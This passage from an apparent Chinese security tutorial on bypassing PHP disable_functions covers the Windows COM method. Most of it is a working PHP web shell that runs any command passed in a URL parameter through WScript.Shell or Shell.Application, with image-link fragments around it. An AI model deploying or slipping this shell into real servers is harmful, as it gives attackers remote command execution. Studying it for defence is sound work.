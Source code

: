 复现成功

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002129-83ad77ac-fc52-1.png)](

# 0x06 利用Windows组件COM绕过

查看`com.allow_dcom`是否开启,这个默认是不开启的。

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001858-2a0fac74-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001858-2a0fac74-fc52-1.png)

创建一个COM对象,通过调用COM对象的`exec`替我们执行命令

```
<?php
$wsh = isset($_GET['wsh']) ? $_GET['wsh'] : 'wscript';
if($wsh == 'wscript') {
    $command = $_GET['cmd'];
    $wshit = new COM('WScript.shell') or die("Create Wscript.Shell Failed!");
    $exec = $wshit->exec("cmd /c".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
}
elseif($wsh == 'application') {
    $command = $_GET['cmd'];
    $wshit = new COM("Shell.Application") or die("Shell.Application Failed!");
    $exec = $wshit->ShellExecute("cmd","/c ".$command);
} 
else {
  echo(0);
}
?>
```
